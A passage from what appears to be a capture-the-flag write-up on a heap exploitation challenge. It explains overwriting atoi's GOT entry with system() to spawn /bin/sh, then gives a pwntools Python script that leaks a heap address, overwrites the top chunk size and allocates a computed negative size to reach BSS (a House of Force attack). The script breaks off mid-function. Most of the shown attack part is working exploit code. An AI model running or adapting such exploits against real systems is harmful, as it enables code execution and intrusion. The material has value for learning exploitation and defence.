 Next we find the address of _system()_ and we use _editSecret()_ to replace _atoi@got_ with _system()_. Then on _getChoice()_ in the main menu we simply enter "/bin/sh" as argument and we win :).

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def getPassphrase():
    garbage = r.recv()
    r.send("A" * 8)
    heap = u32(r.recv()[8:12])
    log.info("Buffer: " + hex(heap))
    r.send("security")
    garbage = r.recv()
    return heap

def updateKey(payload):
    r.sendline('1')
    if payload:
        r.send(payload)
    else:
        garbage = r.recvuntil('enter the new 16-bit key:', timeout=1)
        data = r.recvuntil("the ").replace("the ", "").replace("\x74\x85", "")
        if data == '':
            return "\x00"
        return data

def editSecret(payload):
    r.sendline('2')
    r.sendline(payload)

def signName(size):
    r.sendline('3')
    r.sendline('-' + str(size))

def leak(addr):
    payload = ""
    payload += p32(0x10fb4)
    payload += p32(0x43434343)
    payload += p32(addr)
    editSecret(payload)
    return updateKey(None)

def clear():
    garbage = r.recv(timeout=.5)
    while garbage:
        garbage = r.recv(timeout=.5)

def exploit(r):
    heap = getPassphrase()
    # Overwrite the wilderness
    editSecret("\xff" * 16)

    # Calculate the size for allocation
    BSS = 0x10fb0
    size = (0xffffffff - heap - 0x10) + BSS # calc the addr to BSS
    size = (0xffffffff ^ size) + 5      # 2s compliment + 4
    log.info("Size: " + "-" + str(size))

    # Allocate a huge chunk
    signName(size)
